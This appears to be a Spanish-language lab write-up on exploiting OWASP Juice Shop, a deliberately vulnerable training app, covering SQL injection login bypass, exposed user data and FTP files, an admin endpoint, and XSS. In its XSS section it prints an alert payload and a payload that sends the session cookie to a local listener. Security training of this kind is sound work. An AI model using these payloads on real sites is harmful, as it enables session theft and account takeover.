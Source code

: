 # OWASP-Juice-Shop

## SQL Inyection

La web tiene vulnerabilidades a inyecciones SQL.

Para explotarlo en el Login ingresamos la siguiente sentencia SQL con una contraseña cualquiera y ya nos permitiría el Login:

![image](https://github.com/user-attachments/assets/c8ce89a3-5bff-425c-a1dd-c92960e8c14b)

![image](https://github.com/user-attachments/assets/bacc1ff8-b874-4828-a620-6b930f7a4070)


![image](https://github.com/user-attachments/assets/1fda8b2b-9ca7-462c-a4d9-a286d9c55a8d)


## Exposición de datos del usuario

No tiene controlada las entradas de las peticiones en las URLs, permietiendo ver indormación del usuario logueado:

![image](https://github.com/user-attachments/assets/5be1bd34-dd4b-45f3-b834-62f3e32e1a13)

## Servicio FTP

No tiene el directorio del servicio ftp oculto:

![image](https://github.com/user-attachments/assets/53e551d6-31a0-4736-a60a-710839035adf)


![image](https://github.com/user-attachments/assets/6b1fff73-7f81-4fff-8fe6-2aa5d91fe170)

## Endpoint Administración

Tiene un endpoint llamado administración donde podemos ver todos los usuarios registrados:

![image](https://github.com/user-attachments/assets/9e187548-fe49-452c-91c9-64211f58dcc7)


## Vulnerabilidad XSS

En la barra de búsqueda podemos insertar script xss:

<img src="x" onerror="alert('XSS Funciona')">

![image](https://github.com/user-attachments/assets/c9ab2e27-d567-481e-99e1-fb42c87066c4)

Al ser vulnerable a XSS, he probado a levantarme un servidor python que escuche el puerto 4444, y en la web ejecuto un script que robe la cookie de sesion del usuario logueado, para que el servidor lo reciba:

<img src="x" onerror="fetch('http://127.0.0.1:4444/steal?cookie=' + document.cookie)">

![image](https://github.com/user-attachments/assets/4caa8e13-8fd9-4f3e-af67-48295d66314d)

